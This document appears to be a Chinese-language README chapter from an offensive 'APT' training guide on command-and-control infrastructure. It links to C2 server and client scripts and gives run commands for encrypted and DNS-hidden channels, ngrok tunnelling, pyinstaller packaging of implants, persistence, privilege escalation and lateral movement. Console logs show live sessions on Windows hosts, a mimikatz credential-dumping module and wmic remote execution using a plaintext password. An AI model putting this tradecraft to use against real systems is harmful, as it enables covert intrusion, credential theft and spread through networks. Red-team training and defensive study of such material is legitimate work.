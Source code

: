 ## 基础通信

[c2_server.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%9F%BA%E7%A1%80%E9%80%9A%E4%BF%A1/c2_server.py)

```bash
python3 c2_server.py
```

[c2_client.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%9F%BA%E7%A1%80%E9%80%9A%E4%BF%A1/c2_client.cpp)

```bash
http://IP地址:8080/update_command?cmd="new command"
```

## 加密通信

[crypto_c2.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%8A%A0%E5%AF%86%E9%80%9A%E4%BF%A1/crypto_c2.py)

```bash
python3 crypto_c2.py
```

[crypto_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E5%8A%A0%E5%AF%86%E9%80%9A%E4%BF%A1/crypto_client.py)

```bash
pyinstaller --onefile .\crypto_client.py
```

```bash
http://IP地址:8080/update_command?cmd="New command"
```

## C2基础设施搭建

### 代理服务器

[c2_proxy_server.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_proxy_server.py)

```bash
python3 c2_proxy_server.py
```

[c2_agent.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_agent.py)

[c2_agent_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_agent_client.py)

```bash
http://IP地址:8080/update_command?cmd="New command"
```

### 流量混淆

[c2_encode_wt.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_encode_wt.py)

[c2_encode_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_encode_client.py)

[change_command.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/change_command.py)

```bash
python3 c2_encode_wt.py
python3 c2_encode_client.py
python3 change_command.py
```

### 内网穿透

[Ngrok](https://dashboard.ngrok.com/get-started/setup/linux)

```bash
tar -zxvf ngrok软件包 -C /usr/local/bin
ngrok config add-authtoken 认证令牌
```

```bash
python3 c2_encode_wt.py
ngrok http 8080
```

[c2_ngrok.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD%E6%90%AD%E5%BB%BA/c2_ngrok.py)

```bash
python3 c2_ngrok.py
python3 change_command.py
```

## 隐蔽通信

[hide_wt.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E9%9A%90%E8%94%BD%E9%80%9A%E4%BF%A1/hide_wt.py)

[hide_wt_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/%E9%9A%90%E8%94%BD%E9%80%9A%E4%BF%A1/hide_wt_client.py)

```bash
pip3 install dnspython
python3 hide_wt.py
python3 hide_wt_client.py
python3 change_command.py
```

## C2命令执行

[c2_control.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/c2_control.py)

[c2_exec.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/c2_exec.py)

```bash
python3 c2_control.py
```

```bash
c2_exec.py
```

## C2多阶段攻击

### 持久性

[c2_per.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/c2_per.py)

```bash
pip3 install tabulate
```

[per_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/per_client.py)

```bash
python3 c2_per.py
```

```bash
python3 per_client.py
```

### 特权提升

[privesc_server.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/privesc_server.py)

[privesc_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/privesc_client.py)

```bash
python3 privesc_server.py
python3 privesc_client.py
```

```bash
┌──(crypto)─(root㉿kali)-[~/c2]
└─# python3 privesc_server.py
C2 Console running...
C2> Session 1 connected

C2> sessions
+------------+---------+---------------+-------+
| Session ID | System  |  IP Address   | User  |
+------------+---------+---------------+-------+
|     1      | Windows | 192.168.0.170 | apt-i |
+------------+---------+---------------+-------+
C2> set session 1
Session 1 selected
C2> use privesc
Module privesc loaded
C2> exploit
Exploit command sent to session 1
C2> Session 2 connected

C2> exec whoami /priv
```

### 横向移动

[LM_server.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/LM_server.py)

[LM_client.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%83%E7%AB%A0/C2%E5%A4%9A%E9%98%B6%E6%AE%B5%E6%94%BB%E5%87%BB/LM_client.py)

```bash
pyinstaller.exe --onefile .\LM_client.py
```

```bash
┌──(crypto)─(root㉿kali)-[~/c2]
└─# python3 LM_server.py
C2 Console running...
C2> Session 1 connected
Raw message from session 1: {"system": "Windows", "user": "administrator"}

C2> sessions
+------------+---------+---------------+---------------+
| Session ID | System  |  IP Address   |     User      |
+------------+---------+---------------+---------------+
|     1      | Windows | 192.168.0.109 | administrator |
+------------+---------+---------------+---------------+
C2> set session 1
Session 1 selected
C2> use mimikatz
Module mimikatz loaded
C2> show options
{
    "script_path": "C:\\Users\\Administrator\\Desktop\\test\\c2\\Invoke-Mimikatz.ps1"
}
C2> exploit
Exploit command sent to session 1
C2> Raw message from session 1: {"result": "CiAgLiM......"
C2> exec wmic /node:192.168.0.109 /user:Administrator /password:123qwe!@# process call create "cmd.exe /c ipconfig"
Command sent to session 1
C2> Raw message from session 1: {"result": "5omn6KGMKFdpbjMyX1Byb2Nlc3MpLT5DcmVhdGUoKQoK5pa55rOV5omn6KGM5oiQ5Yqf44CCCgrlpJblj4LmlbA6Cmluc3RhbmNlIG9mIF9fUEFSQU1FVEVSUwp7CglQcm9jZXNzSWQgPSAzODM2OwoJUmV0dXJuVmFsdWUgPSAwOwp9OwoK"}
Received from session 1: 执行(Win32_Process)->Create()

方法执行成功。
外参数:
instance of __PARAMETERS
{
        ProcessId = 3836;
        ReturnValue = 0;
};
```
